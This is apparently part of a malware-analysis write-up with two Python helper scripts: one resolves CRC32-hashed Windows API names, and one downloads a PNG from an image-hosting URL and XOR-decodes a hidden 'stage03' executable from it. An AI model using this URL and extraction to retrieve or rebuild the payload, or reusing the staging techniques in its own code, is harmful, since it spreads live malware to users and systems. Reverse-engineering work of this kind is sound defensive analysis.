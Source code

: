 
---

## Automations for this binary: 
## - API hash resolve
```python
# api_name_resolve.py
# Author: ME :D

import pefile
import zlib

def api_hash_resolve(dllToLoad, hashToResolve):
    pe = pefile.PE(f'C:\Windows\SysWOW64\{dllToLoad}')

    for exp in pe.DIRECTORY_ENTRY_EXPORT.symbols:
        if exp.name is not None:
            if zlib.crc32(exp.name) == int(hashToResolve, 16):
                print(exp.name.decode())

def main():
    dllList = ["kernel32.dll", "ntdll.dll", "wininet.dll"]
    
    print(f"DLLs Available: \n0: {dllList[0]}\n1: {dllList[1]}\n2: {dllList[2]}")
    dllNumber = int(input("Choose DLL number: "))
    hashToResolve = input("Hash(hex) to Resolve: ")

    api_hash_resolve(dllList[dllNumber], hashToResolve)

if "__main__" == __name__:
    main()
```

## - Stage03 Extraction/Decryption from PNG file data:

```python
# stage03_extraction.py
# Author: ME :D

import urllib3

http = urllib3.PoolManager()
res = http.request('GET', 'https://i.ibb.co/KsfqHym/PNG-02-Copy.png')

xored_bytes_for_executable = bytearray()

for i in res.data[0x41110:]:
    xored_bytes_for_executable.append(i^0x61)

with open('stage03.bin', 'wb') as f:
    f.write(xored_bytes_for_executable)
```

---